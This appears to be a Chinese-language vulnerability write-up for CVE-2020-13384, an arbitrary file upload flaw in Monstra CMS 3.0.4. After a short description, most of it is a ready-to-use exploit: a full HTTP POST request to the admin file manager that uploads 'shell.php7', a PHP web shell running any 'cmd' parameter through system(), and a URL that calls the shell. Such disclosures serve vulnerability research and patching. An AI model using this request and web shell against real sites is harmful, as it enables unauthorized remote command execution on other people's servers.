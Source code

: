 （CVE-2020-13384）Monstra CMS 3.0.4 任意文件上传漏洞
====================================================

一、漏洞简介
------------

Monstra CMS是乌克兰Sergey
Romanenko软件开发者的一套基于PHP的轻量级内容管理系统（CMS）。 Monstra
CMS
3.0.4版本中的index.php脚本存在安全漏洞，该漏洞源于程序没有正确验证文件扩展名。远程攻击者可借助特制HTTP请求利用该漏洞上载和执行任意PHP代码。

二、漏洞影响
------------

Monstra CMS 3.0.4

三、复现过程
------------

访问`https://www.0-sec.org/monstra/admin/index.php?id=filesmanager&path=uploads/`

    POST /monstra/admin/index.php?id=filesmanager HTTP/1.1
    Host: www.0-sec.org
    Content-Length: 548
    Cache-Control: max-age=0
    Origin: https://www.0-sec.org
    Upgrade-Insecure-Requests: 1
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundarytRfyCkYq8NvztDBf
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.117 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Referer: https://www.0-sec.org/monstra/admin/index.php?id=filesmanager
    Accept-Encoding: gzip, deflate
    Accept-Language: en-GB,en;q=0.9,en-US;q=0.8,fr;q=0.7
    Cookie: PHPSESSID=eej6e0lqi191k2frqc2hl3v6d0; _ga=GA1.1.405623579.1579949328; _gid=GA1.1.2042923722.1579949328
    Connection: close

    ------WebKitFormBoundarytRfyCkYq8NvztDBf
    Content-Disposition: form-data; name="csrf"

    2e6ae2353998caa319aae262b113c6b3f17a9636
    ------WebKitFormBoundarytRfyCkYq8NvztDBf
    Content-Disposition: form-data; name="file"; filename="shell.php7"
    Content-Type: application/octet-stream

    <?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>


    ------WebKitFormBoundarytRfyCkYq8NvztDBf
    Content-Disposition: form-data; name="upload_file"

    Upload
    ------WebKitFormBoundarytRfyCkYq8NvztDBf--

`https://www.0-sec.org/monstra/public/uploads/shell.php7?cmd=id`
